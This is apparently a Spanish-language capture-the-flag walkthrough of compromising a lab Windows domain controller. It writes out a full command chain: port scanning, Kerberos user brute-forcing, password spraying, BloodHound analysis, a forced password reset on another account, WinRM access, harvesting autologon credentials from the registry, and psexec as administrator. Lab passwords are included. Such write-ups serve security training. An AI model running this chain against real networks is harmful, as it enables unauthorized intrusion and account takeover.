Comenzamos enumerando los puertos abiertos de la máquina víctima con ``nmap``:

``sudo nmap 10.10.10.31 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``



Vale. Tiene una pinta de DC que no puede con ella, pero vamos a pasar otro escaneo con ``nmap`` a los puertos que sabemos que están abiertos para que nos reporte con más exactitud qué servicios y versiones están corriendo.

``nmap 10.10.10.31 -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49680,49681,49686,49697,49711 -oN target``





Ya empezamos a sacar cositas. Por ejemplo: ``Domain: megachange.nyx``. Si queremos validarlo antes de meterlo en el ´´/etc/hosts``, podemos hacer uso de ``netexec``:

``netexec smb 10.10.10.31``

Confirmamos dominio y sacamos nombre del equipo, por lo que podemos incluir esta información en el ``/etc/hosts``:

Lo primero que tenemos que intentar es sacar algún usuario válido a nivel de dominio.

Se intenta enumerar usuarios a través de RPC con Null y Guest, pero no permite enumeración (access denied + account disabled).

``rpcclient -U '' 10.10.10.31 -N  ``



Se intenta también a través de LDAP y SMB, pero sin éxito.

Dado que no podemos enumerar usuarios a través de SMB, RPC, LDAP, solo queda hacer uso de fuerza bruta a través de ``Kerbrute``. Se comienza utilizando el diccionario ``A-Z.Surnames.txt``.

``kerbrute userenum --dc 10.10.10.31 -d megachange.nyx ~/Pentest/Tools/kerberos_enum_userlists/A-Z.Surnames.txt``



Pero no nos encuentra nada con lo que empezar a jugar.

Podemos utilizar otro diccionario de nombres muy común: Xato.

``kerbrute userenum --dc 10.10.10.31 -d megachange.nyx /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt``



Ojo, nos reporta varios usuarios: ``alfredo``, ``administrator``, ``change``, ``sysadmin``. Nos guardamos esta información y la añadimos a ``users.txt``.

Se intenta ``as-rep roasting`` por si pudiésemos sacar el hash de alguno de estos usuarios al tener setteada la opción ``Dont require pre-auth``, pero sin éxito.

Dada la situación en la que nos encontramos, se decide hacer fuerza bruta con el diccionario ``rockyou``:

``netexec smb 10.10.10.31 -u users.txt -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding --continue-on-sucess | grep -v '[-]'``


Genial, hemos conseguido unas credenciales que, a priori, son válidas a nivel de dominio. Vamos a comprobarlo (repetimos comando, pero de forma específica con las credenciales):

``netexec smb 10.10.10.31 -u 'alfredo' -p 'Password1'``



Confirmamos que son válidas a nivel de dominio.

¿Formará el usuario ``alfredo`` parte del grupo ``Remote Management Users``? Esto nos permitiría conectarnos a la máquina víctima a través de  ``evil-winrm``.

Vamos a comprobarlo:

``netexec winrm 10.10.10.31 -u 'alfredo' -p 'Password1'``



Nope. No podemos conectarnos vía winRM.

Pero una vez tenemos unas credenciales válidas a nivel de dominio podemos enumerar más cositas.

Por ejemplo, podemos hacer uso ``bloodhound-python`` para que nos extraiga información y a través de ``bloodhound`` que nos printee de forma gráfica las relaciones (usuarios, grupos, permisos...) que pueden existen dentro del dominio.

``bloodhound-python -ns 10.10.10.31 -dc change.megachange.nyx -u 'alfredo' -p 'Password1' -d megachange.nyx -c All``



Subimos la data a bloodhound y nos dirigimos al usuario del que tenemos credenciales: ``alfredo``. Lo marcamos como ``owned``.

En el apartado ``Outbound Object Control`` encontramos algo interesante:



El usuario ``alfredo`` puede forzar el cambio de contraseña del usuario ``sysadmin``. Que, a su vez, forma parte del grupo ``Remote Management Users``:



Esto quiere decir que, si, efectivamente, podemos cambiar la contraseña del usuario ``sysadmin``, acto seguido podremos conectarnos vía winRM.

Para forzar el cambio de contraseña haremos uso de ``net rpc password``:

``net rpc password 'sysadmin' -U 'alfredo' -S 10.10.10.31``

- Nos pide la nueva contraseña para ``sysadmin`` -> ``Password2``
- Nos pide la contraseña de nuestro usuario, ``alfredo`` -> ``Password1``

Para comprobar que se ha cambiado la contraseña correctamente, validamos con netexec:

``netexec smb 10.10.10.31 -u 'sysadmin' -p 'Password2'``



Validamos:

``netexec winrm 10.10.10.31 -u 'sysadmin' -p 'Password2'``



Bingo, confirmamos que podemos conectarnos a la máquina víctima. Pues vamos a ello.

``evil-winrm -i 10.10.10.31 -u 'sysadmin' -p 'Password2'``



Una vez dentro de la máquina víctima como ``sysadmin``, podemos recoger la flag de usuario en ``C:\Users\sysadmin\Desktop\user.txt``:



# PRIVESC

Si empezamos a husmear y a hacer un reconocimiento desde dentro, nos encontramos algo muuuuy interesante. Si buscamos credenciales de autologon, vemos:

``Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"``



Pero wiño, ¿tenemos realmente las credenciales de administrator? Vamos a validar.

``netexec smb 10.10.10.31 -u 'administrator' -p 'd0m@in_c0ntr0ll3r'``



Ojo cuidao'. Pues podemos entrar hasta la cocina.

``impacket-psexec 'administrator':'d0m@in_c0ntr0ll3r'@10.10.10.31``



Y podemos recoger la flag de administrador en ``C:\Users\Administrator\Desktop\root.txt``


